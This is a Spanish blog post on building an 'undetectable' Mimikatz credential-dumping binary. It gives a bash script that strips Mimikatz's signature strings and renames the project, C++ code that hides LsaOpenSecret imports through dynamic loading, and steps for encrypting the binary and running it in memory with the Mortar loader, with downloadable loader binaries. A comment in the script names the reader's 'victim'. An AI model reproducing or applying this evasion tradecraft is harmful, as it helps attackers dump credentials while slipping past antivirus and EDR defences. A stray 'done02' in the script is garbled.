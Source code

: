 ```yaml
---
layout: single
title:  "Creando nuestro propio binario de mimikatz (indetectable)"
categories: [articulos, AD, malware, bypass]
---
```


### En este post vamos a cubrir primero un método manual en el que vamos a modificar el código fuente de mimikatz para cambiar y ofuscar las palabras que usa normalmente el binario y luego con el uso de una herramienta vamos a volver al mimikatz indebuggueable  

Para hacer esto voy a utilizar la versión de [version de desarrollador de windows ](https://developer.microsoft.com/es-es/windows/downloads/virtual-machines/) con [CommandoVM](https://github.com/mandiant/commando-vm)

Empezando con que ya existen varios artículos de este tema, pero no es español y sobre todo se enfocan en bypassear el [Invoke-Powershell](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-Mimikatz.ps1) esta vez vamos a ofuscar el binario desde el código fuente 

Veamos que es lo primero que imprime al ejecutar

![mimi_logo](/assets/articulos/custom-mimikatz/primer_mimi.png) 


Como podemos ver, más allá del comportamiento del archivo están las palabras obvias que buscaría un antivirus como 


|  “A La Vie, A L’Amour” | mimikatz, MIMIKATZ |
|http://blog.gentilkiwi.com/mimikatz| DELPY, Benjamin, benjamin@gentilkiwi.com |
|Vincent LE TOUX| creativecommons |
|vincent.letoux@gmail.com| gentilkiwi |
|http://pingcastle.com| KIWI, Kiwi |
|http://mysmartlogon.com|   |


Todas estas palabras del menú indicarían que mimikatz se está ejecutando así que ya tenemos una idea de que es lo primero que vamos a cambiar.
Si buscamos más a fondo en algunas [wikis](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Mimikatz.md) encontramos mas palabras clave


- crypto, dpapi, kerberos, lsadump, ngc, sekurlsa
- standard, privilege, process, service, ts, event
- misc, token, vault, minesweeper, net, busylight
- sysenv, sid, iis, rpc, sr98, rdm, acr

Y porque no cambiar el mismo logo del que se encuentra en *mimikatz.c*

![mimi_logo_code](/assets/articulos/custom-mimikatz/mimi_logo.png) 

Aqui hay un [gist](https://gist.github.com/imaibou/92feba3455bf173f123fbe50bbe80781) en el cual con un script buscamos algunas de esas palabras claves y las borramos 

```bash

# This script downloads and slightly "obfuscates" the mimikatz project.
# Most AV solutions block mimikatz based on certain keywords in the binary like "mimikatz", "gentilkiwi", "benjamin@gentilkiwi.com" ..., 
# so removing them from the project before compiling gets us past most of the AV solutions.
# We can even go further and change some functionality keywords like "sekurlsa", "logonpasswords", "lsadump", "minidump", "pth" ....,
# but this needs adapting to the doc, so it has not been done, try it if your victim's AV still detects mimikatz after this program.

git clone https://github.com/gentilkiwi/mimikatz.git windows
mv windows/mimikatz windows/windows
find windows/ -type f -print0 | xargs -0 sed -i 's/mimikatz/windows/g'
find windows/ -type f -print0 | xargs -0 sed -i 's/MIMIKATZ/WINDOWS/g'
find windows/ -type f -print0 | xargs -0 sed -i 's/Mimikatz/Windows/g'
find windows/ -type f -print0 | xargs -0 sed -i 's/DELPY/James/g'
find windows/ -type f -print0 | xargs -0 sed -i 's/Benjamin/Troy/g'
find windows/ -type f -print0 | xargs -0 sed -i 's/benjamin@gentilkiwi.com/jtroy@hotmail.com/g'
find windows/ -type f -print0 | xargs -0 sed -i 's/creativecommons/python/g'
find windows/ -type f -print0 | xargs -0 sed -i 's/gentilkiwi/MSOffice/g'
find windows/ -type f -print0 | xargs -0 sed -i 's/KIWI/ONEDRIVE/g'
find windows/ -type f -print0 | xargs -0 sed -i 's/Kiwi/Onedrive/g'
find windows/ -type f -print0 | xargs -0 sed -i 's/kiwi/onedrive/g'
find windows/ -type f -name '*mimikatz*' | while read FILE ; do
	newfile="$(echo ${FILE} |sed -e 's/mimikatz/windows/g')";
	mv "${FILE}" "${newfile}";
done02
find windows/ -type f -name '*kiwi*' | while read FILE ; do
	newfile="$(echo ${FILE} |sed -e 's/kiwi/onedrive/g')";
	mv "${FILE}" "${newfile}";
done

```
Después de investigar un poco he encontrado una versión de este gist, pero con esteroides, con este script no solo cambiamos cada una de las palabras típicas de mimikatz, además cambiamos los nombres de las funciones, de los dll, de los archivos .c cambia hasta el icono del .exe. No lo puedo poner en el artículo porque ocuparía todo

### [mimikatz obfuscator](https://gist.github.com/S3cur3Th1sSh1t/cb040a750f5984c41c8f979040ed112a) <br>(gracias a S3cur3Th1sSh1t por el script)

Si analizamos un poco el código vemos como se mete tanto dentro de los archivos, con los nombres de los archivos, con los nombres y hasta cambiaria la estructura del proyecto entero 


```bash
find windows/ -type f -print0 | xargs -0 sed -i "s/List Kerberos tickets/-/g"

mimi=$(cat /dev/urandom | tr -dc "a-zA-Z" | fold -w 8 | head -n 1)
mv windows/mimikatz windows/$mimi

find windows/ -type f -name "*mimikatz*" | while read FILE ; do
	newfile="$(echo ${FILE} |sed -e "s/mimikatz/$mimi/g")";
	mv "${FILE}" "${newfile}";
done
```

Es hora de verlo en acción. Pero aún faltan algunas cosas para cambiar del código 


### Notas a tener en cuenta al compilar mimikatz por primera vez   
Si es la primera vez que vais a compilar mimikatz en visual studio code tenéis que tener en cuenta lo siguiente

- Primero en quitar el warning level en *"Project"->Properties->Configuration Properites->General* y ponerlo en W0

 ![warning](/assets/articulos/custom-mimikatz/vscode_log.png) 

 - Después en platform toolset tenemos que poner el *v141_xp* esto normalmente te sale, pero no está instalado, se instala en*"tools"-> Get tools and features*

 ![v141_xp](/assets/articulos/custom-mimikatz/v141_xp.png) 

- Después de tener esto listo ejecutamos nuestro script el cual va a descargar y obfuscar automaticamente, luego se supone que lo guarda en un .zip, pero cada quien lo puede cambiar a que haga lo que quiera
 
*Este proceso tarda 20-30 min*

 ![cmd_obfs](/assets/articulos/custom-mimikatz/cmdobfuscated.png) 

El script debe cambiar el nombre de algunas carpetas como lo hemos visto antes y nos deberia quedar algo asi


 ![folder2](/assets/articulos/custom-mimikatz/folder2.png)<br>

### API imports 

Muchos antivirus detectan el comportamiento de mimikatz por sus llamadas al windows api. Que se conoce como *LSAOpenSecret* así que una forma de ocultar estas llamadas seria con el siguiente código.

```c++

typedef NTSTATUS(__stdcall* _LsaOSecret)(
	__in LSA_HANDLE PolicyHandle,
	__in PLSA_UNICODE_STRING SecretName,
	__in ACCESS_MASK DesiredAccess,
	__out PLSA_HANDLE SecretHandle
	);
char hid_LsaLIB_02zmeaakLCHt[] = { 'a','d','v','a','p','i','3','2','.','D','L','L',0 };
char hid_LsaOSecr_BZxlW5ZBUAAe[] = { 'L','s','a','O','p','e','n','S','e','c','e','t',0 };
HANDLE hhid_LsaLIB_asdasdasd = LoadLibrary(hid_LsaLIB_02zmeaakLCHt);
_LsaOSecret ffLsaOSecret = (_LsaOSecret)GetProcAddress(hhid_LsaL

```

Ocultando *SamEnumerateUserDomain*, *SamOpenUser*, *LsaSetSecret* y mas ya tendriamos casi listo nuestro binario indetectable <br>
*NO* utilizar el mismo codigo, tienes que randomizar aun mas las variables

### mortar

Por ultimo, vamos a terminar de limpiar el binario y a ejecutarlo directamente en la memoria con una heramienta llamada *mortar* que nos va a hacer el proceso de ejecucion aun mas bypasseable <br>
 
[mortar github](https://github.com/0xsp-SRD/mortar)

- Primero le pasamos el .exe que hemos creado antes lo encodea con *encyptor.exe* y despues lo ejecutamos con el *deliver.exe*

Mortar Loader realiza el cifrado y descifrado del binario seleccionado dentro de los flujos de memoria y lo ejecuta directamente sin escribir ningún indicador malicioso en el disco duro. Mortar puede eludir los productos antivirus modernos y las soluciones XDR

mortar es una herramienta hecha en pascal, os dejo los binarios compilados aqui:
[encryptor.exe](/assets/articulos/custom-mimikatz/encryptor.exe) <br>
[deliver.exe](/assets/articulos/custom-mimikatz/deliver.exe) <br>
[agressor.dll](/assets/articulos/custom-mimikatz/agressor.dll) <br>

- Primero le pasamos el mimikatz antes creado para que lo termine de encriptar
![encryptor](/assets/articulos/custom-mimikatz/encryptor.png)<br>

Por último lo ejecutamos de la siguiente manera.

![mimi_run](/assets/articulos/custom-mimikatz/mimi_run.png)<br>

